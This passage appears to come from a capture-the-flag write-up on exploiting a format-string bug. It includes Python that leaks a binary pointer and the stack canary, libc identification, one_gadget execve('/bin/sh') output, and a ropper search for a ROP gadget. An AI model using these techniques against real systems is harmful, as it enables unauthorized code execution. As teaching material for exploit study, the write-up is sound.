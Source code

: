 Printing the stack for different connections shows that the offset for the canary changes, hence we will make some code to find it dynamically. Simply extend the code given at the end of [(Actual) Un-blinding](#actual-un-blinding) to the following - where first and the last two lines are new:
```python
bptr, canary = None, None
for i in range(7,30):
  r.sendafter(b">> ", f'%{i}$p'.encode())
  leak = r.recvline().decode().strip()
  if not bptr and ('0x55' == leak[:4] or '0x56' == leak[:4]):
    bptr = int(leak, 16)
  if not canary and len(leak) >= 8*2+1 and leak[-2:] == '00':
    canary = int(leak, 16)
```

## Rop and one_gadget

As we can essentially leak memory from every address, we can also utilise `DynELF` to leak `libc`. It does this by using the `link map` structure. If you want to understand this is depth, one could start by reading the documentation of `DynELF` and perhaps solve the `ELF` challenge on `pwnable.kr` without using `DynELF`.

Once `libc.base` is found, one could leak all of `libc` and then look for gadgets, but I will instead just figure out the specific version and then download it from a public resource:
```
$ strings binfile.elf | grep libc
/home/user/assets/glibc/ld-2.31.so
```
Where `binfile.elf` is the leaked binary and we see that the version of the linker is `2.31` and it's then possible to download the corresponding version of libc:
https://ubuntu.pkgs.org/20.04/ubuntu-main-amd64/libc-bin_2.31-0ubuntu9_amd64.deb.html.

One could perhaps also find this information by using a `libc` database: https://libc.blukat.me/. 


We will now find and utilise a `one_gadget`:
```
$ one_gadget libc6_2.31-9_amd64.so
0xcbd1a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xcbd1d execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xcbd20 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

I can spoil that the conditions will not hold, hence we need to rop the binary a bit. We will simply choose the first one at offset `0xcbd1a`. Using the `ropper` tool (https://github.com/sashs/Ropper), we can find a `r12 = r13 = null` gadget:
```
$ ropper -f libc6_2.31-9_amd64.so --search "pop %r12; pop %r13; ret;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop %r12; pop %r13; ret;

[INFO] File: libc6_2.31-9_amd64.so
0x0000000000028487: pop r12; pop r13; ret;
[...]
```